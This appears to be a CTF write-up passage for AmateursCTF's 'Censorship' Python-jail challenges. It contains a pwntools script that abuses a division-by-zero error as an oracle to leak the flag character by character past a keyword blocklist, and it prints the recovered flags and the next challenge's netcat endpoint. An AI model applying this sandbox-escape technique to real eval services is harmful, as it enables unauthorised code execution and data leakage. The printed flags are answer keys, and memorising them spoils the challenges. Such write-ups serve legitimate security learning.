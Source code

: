 ```
from pwn import *

# initializations
ONE = "abs(~sum([]))+"
flag = "a"

# helper function
def send_code(code: str):
    p.sendline(code.encode())
    return p.recvuntil(b'Give code: ').decode().split("Give")[0]


# start connection and flush
p = remote('amt.rs', 31671)
p.sendline(b'_')
p.recvuntil(b'Give code: ')
p.recvuntil(b'Give code: ')


while '}' not in flag:
    current_index = len(flag)
    for i in range(0x20, 0x7e):
        payload = f'abs(~sum([]))/(ord(_[{(ONE*current_index)[:-1]}])-({(ONE*i)[:-1]}))'
        #print(payload)

        out = send_code(payload)

        if 'zero' in out:
            flag += chr(i)
            print(flag)
            break
        elif out == '':
            continue
        else:
            print(out)
            exit()

p.close()
```

<img src="/static/amactf-censored/flag.png" width="500px">

**Flag:** `amateursCTF{i_l0v3_overwr1t1nG_functions..:D}` (Censored)

**Flag:** `amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}` (Censored Lite)


## Censorship Lite++ Description
```markdown
I've gotten tired of everyone opening shells on my computer, so I'm increasing 
the size of the blocklist. I'm not sure how you got into the previous one, but 
you definitely can't get into this one. (Flag format is amateursCTF{[a-zA-Z_]*}, 
for any CTFers looking to social engineer an admin for the flag).

nc amt.rs 31672

[main.py]
```
